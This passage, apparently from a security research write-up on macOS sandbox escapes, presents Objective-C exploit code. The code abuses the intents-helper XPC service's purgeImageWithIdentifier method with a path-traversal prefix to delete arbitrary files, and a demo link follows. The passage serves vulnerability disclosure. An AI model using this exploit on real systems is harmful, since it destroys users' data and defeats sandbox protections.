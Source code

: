 ![image-20241020154636438](../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020154636438.png)

It can be exploited to delete an arbitrary file path.

### The exploit and demo

```
@protocol INHServing
- (oneway void)purgeImageWithIdentifier:(NSString *)arg1 completion:(void (^)(NSError *))arg2;
- (oneway void)retrieveImageWithIdentifier:(NSString *)arg1 completion:(void (^)(INImage *, NSError *))arg2;
@end

void exploit_intents_helper(NSString *target) {
    [[NSBundle bundleWithPath:@"/System/Library/Frameworks/Intents.framework"]load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.intents.intents-helper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(INHServing)];
    [conn setInterruptionHandler:^{
        NSLog(@"connection interrupted!");
    }];
    [conn setInvalidationHandler:^{
        NSLog(@"connection invalidated!");
    }];
    [conn resume];

    [[conn remoteObjectProxy] purgeImageWithIdentifier:[@"../../../../.." stringByAppendingPathComponent:target] completion:^(NSError *error) {
        NSLog(@"error:%@", error);
    }];
}
```

Demo link: https://youtu.be/X0fv3x6bmF8
